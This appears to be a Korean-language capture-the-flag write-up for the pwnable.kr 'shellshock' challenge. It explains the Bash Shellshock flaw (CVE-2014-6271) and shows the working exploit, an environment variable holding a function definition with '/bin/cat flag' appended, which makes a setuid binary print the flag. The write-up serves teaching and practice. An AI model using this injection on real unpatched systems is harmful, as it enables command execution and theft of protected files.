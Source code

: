 # 문제
Mommy, there was a shocking news about bash.
I bet you already know, but lets just make it sure:)

ssh shellshock@pwnable.kr -p2222 (pw:guest)

---
# 개요
```
shellshock@ubuntu:~$ ls
bash  flag  shellshock	shellshock.c
shellshock@ubuntu:~$ cat shellshock.c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}

shellshock@ubuntu:~$
```
shellshock 취약점은 bash가 subshell을 실행시키면서 발생한다.  
bash의 환경변수에 함수 정의를 이용해서 원격 코드를 추가할 수 있고 다음 bash 가 사용될 때 추가된 코드가 실행됩니다. 즉 함수정의 뒤에 임의의 명령을 추가하면 bash는 환경변수를 import 할때 끝에 추가된 명령까지 같이 실행하게 된다.  
이를 이용하여 test 라는 환경 변수에 함수정의를 이용하여 /bin/cat/flag 라는 명령을 추가한 후 바이너리를 실행하면 취약점에 의해 플래그를 출력할 것입니다
```
shellshock@ubuntu:~$ export test='() { echo Hi; }; /bin/cat flag'
shellshock@ubuntu:~$ ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
shellshock@ubuntu:~$
```
